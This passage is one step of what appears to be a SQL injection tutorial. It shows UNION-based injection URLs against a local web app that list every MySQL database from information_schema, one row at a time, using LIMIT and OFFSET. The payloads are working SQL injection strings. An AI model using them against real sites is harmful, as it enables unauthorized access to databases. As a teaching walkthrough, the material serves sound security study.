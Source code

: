 # (d) Get all databases

The plan here is to **list all databases** in the database server.

So MySQL store information about all databases in a special database called [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html).
To get the name of all databases we have to query the table **SCHEMATA** of that database.

The query may look like this:
```shell
SELECT schema_name FROM information_schema.schemata
```

We can inject that query via browser, just like in the previous steps:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata),3,4,5,6,7,8,9/slug-name-post'
```

But we will get this error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

This is because the query returns more than one row. So we have to *limit* the output, listing the databases **one by one**, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1),3,4,5,6,7,8,9/slug-name-post'
```

So now we have the first database. For the next one we can use the OFFSET trick, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1),3,4,5,6,7,8,9/slug-name-post'
```

With this OFFSET trick we are skipping the first database and getting the second one. Then we skip another one to get the next one:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 2),3,4,5,6,7,8,9/slug-name-post'
```

We keep skipping until getting all the databases.

And that is it!! Mission accomplished!
